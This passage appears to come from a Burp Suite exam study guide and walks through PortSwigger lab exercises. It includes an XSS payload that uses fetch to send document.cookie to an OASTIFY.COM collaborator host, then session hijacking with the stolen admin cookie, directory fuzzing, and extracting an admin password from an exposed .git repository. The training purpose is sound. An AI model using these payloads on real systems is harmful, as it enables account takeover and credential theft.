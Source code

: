 >Scanning non-standard data structures using Burp feature to scan selected insertion point for select text in response or requests.

![scan-selected-insertion-point](images/scan-selected-insertion-point.png)  

>Identify the vulnerability through Burp scanner issue results.  
>In this case, using the identified XSS, Steal the admin user's cookies by crafting the payload in the ***identified*** insertion point.  

```
'"><svg/onload=fetch(`//OASTIFY.COM/${encodeURIComponent(document.cookie)}`)>:CURRENT-USER-LOGIN-COOKIE-2ND-PART
```  

>Url encode key characters.  

![admin-cookie-stealer](images/admin-cookie-stealer1.png)  

>Use the admin user's cookie to access the admin panel by replacing it in the current browser session.  

[PortSwigger Lab: Scanning non-standard data structures](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-scanning-non-standard-data-structures)  
    
-----

# Foothold  
  
# Content Discovery  

>Enumeration of target start with fuzzing web directories and files. Either use the Burp engagement tools, content discovery option to find hidden paths and files or use `FFUF` to enumerate web directories and files. Looking at `robots.txt` or `sitemap.xml` that can reveal content.  

```bash
wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt

ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
```  

>Burp engagement tool, content discovery using my compiled word list [burp-labs-wordlist](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/wordlists/burp-labs-wordlist.txt) as custom file list.  

![content-discovery.png](images/content-discovery.png)  

>Examine the git repo branches on local downloaded copy, using `git-cola` tool. Then select **Undo last commit** and extract admin password from the diff window.  

```
wget -r https://TARGET.web-security-academy.net/.git/

git-cola --repo 0ad900ad039b4591c0a4f91b00a600e7.web-security-academy.net/
```  
